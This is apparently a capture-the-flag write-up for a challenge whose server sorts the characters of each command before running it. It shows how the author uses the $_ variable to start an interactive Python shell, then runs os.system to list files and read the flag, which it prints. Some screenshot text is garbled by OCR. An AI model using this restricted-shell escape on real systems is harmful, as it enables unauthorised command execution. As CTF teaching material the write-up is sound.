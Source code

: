# abhs
> Just a warmup.

> nc abhs.bctf23-codelab.kctf.cloud 1337

## About the Challenge
We were given a server. But if we input a command, the server will sort the characters. For example the command `bash`, then the server will execute it as `absh`

## How to Solve?
First, we try to execute `env` command and the result is


[Image extracted text: env
SHLVL-1
LC_CTYPE-C.UTF-8
Flusr/bin/python}
PWD-/home_
user]


As you can see there is an interesting environment variable called `_` and the value is `/usr/bin/python3`

If we input `_$` on the server. The server will be executing a `/usr/bin/python3`


[Image extracted text: $ _ $
test
test
test]


But we still can't do anything, we will force the python to open a prompt using `-i` switches


[Image extracted text: inspect interactively
after
running script;
forces
prompt
even
if stdin does not
appear
to be
terminal;
also PYTHONINSPECT=X]


Now we input `_$ -i` into the server and the result is


[Image extracted text: $ _$ -i
Python
3.8.10 (default,
Nov 14 2022, 12:59.47)
[GCC 9.4.0]
on
linux
Type
"help"
'copyright"
credits"
or
"license
for
more
information_
>>>]


You can import `os` package to run OS command without any restriction


[Image extracted text: 7> >
import
("os
) .system("ls
chal.py
txt
wrapper
sh
7> >
import
"os")  system("cat
txt"
#bctf{gr3at
gu3ss_you_gOt_that_Sorted_out:P}
#comments
so that
you cannot just
exec this
flag
flag]


```
bctf{gr34t_I_gu3ss_you_g0t_that_5orted_out:P}
```